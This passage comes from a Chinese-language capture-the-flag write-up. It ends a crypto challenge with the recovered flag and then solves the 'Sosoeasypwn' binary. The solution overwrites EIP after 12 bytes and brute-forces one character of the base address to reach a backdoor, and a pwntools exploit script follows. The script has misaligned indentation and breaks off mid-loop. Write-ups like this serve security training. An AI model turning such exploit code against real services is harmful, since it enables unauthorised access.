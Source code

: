 发现并不能解出来

这里有点小坑，C1和C2位置互换了

于是重新跑第一个脚本，C1和C2的值互换，secret之前已经爆破出来了

得到 x=1026

AES解密得

thisisa_flag

然后去目标url post

得到

[![](https://p0.ssl.qhimg.com/t017274e33bae69e881.png)](https://p0.ssl.qhimg.com/t017274e33bae69e881.png)

flag：401E48C9A96DC219C32AB5E75204B655



## PWN

### <a name="header-n271"></a>Sosoeasypwn

原本想泄露canary，后无意间发现，eip竟然被覆盖了，于是手测，发现输入12个a后即可控制eip。（这里输入了12个a和3个b加1个回车，可见eip被覆盖成了bbb\n）

[![](https://p4.ssl.qhimg.com/t010c37e6c8bbb1b6b1.png)](https://p4.ssl.qhimg.com/t010c37e6c8bbb1b6b1.png)

IDA静态分析发现，是两个函数调用了同一个栈，然后栈内数据没清理，导致部分数据被重用

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015e095d24737ad464.png)

所以导致合法输入就可以覆盖v1的值。

由于开启了eip保护，但程序本身已经给了16位（4个字符），ida里可以看到后门函数的相对偏移，9CD

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018a621e2f9cea22b6.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0196029343f5794798.png)

基址后12位（3个字符）都是0，那么仅需要爆破一个字符即可得到拿到shell

exp：

```
#!/usr/bin/python

from pwn import *

context.log_level = 'debug'
while True:
        try:
                
                #sh = remote('101.71.29.5',10000)
                sh = process("./pwn")
              base_addr = sh.recvuntil(' world')
              base_addr = hex(int(base_addr[-11:-6]))
              sh.recvuntil('So, Can you tell me your name?')
              sh.send('a'*12+p32(int(base_addr+'89cd',16))
              sh.recvuntil('Please')
              sh.sendline('ls')
              sh.interactive()

```